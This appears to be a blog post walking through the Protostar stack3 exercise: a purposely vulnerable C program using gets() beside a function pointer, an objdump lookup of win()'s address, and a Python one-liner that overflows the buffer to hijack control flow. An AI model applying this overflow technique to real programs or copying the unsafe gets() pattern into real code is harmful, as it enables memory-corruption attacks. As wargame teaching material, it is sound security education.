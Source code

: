 ```yaml
---
layout: post
title: "Redirecting Control Flow To Specific Address: protostar stack3"
date: 2018-10-23 16:02:45 -700
categories: jekyll update
---
```


{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}

{% endhighlight %}
Here we have a function outside of the main() called win() and in the main we have a blank function pointer within main, conveniently located right after the end of a buffer. 

If you are not familiar with how a c program runs, the code contained in the main() will be executed, and other functions outside of it are typically called within main. Since the function win() is never called by main(), it will never execute. Unless you are a hacker. 

The basic idea is the same for this program, we will overflow the buffer and write whatever we want to the fp() pointer. In this case, we need to write the address of the win() function.

There are many ways to get the address of the main function including using a debugger like GDB (a tool I use a lot), but for the sake of simplicity, I will show how to find this address using a command called objdump.

objdump has many uses, but for our purpose we should run it with the -S flag, in order to get the source, which will contain memory addresses of functions. We can also use grep to give us only the win() address.

$objdump -S stack3 | grep win

08048424 <win>:

$

Now we have the address.

$python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3

calling function at 0x08048424
code flow successfully changed

Cool. We have changed the code flow to a specific part of memory. This is a very useful tactic, which will be expanded upon in later challenges. 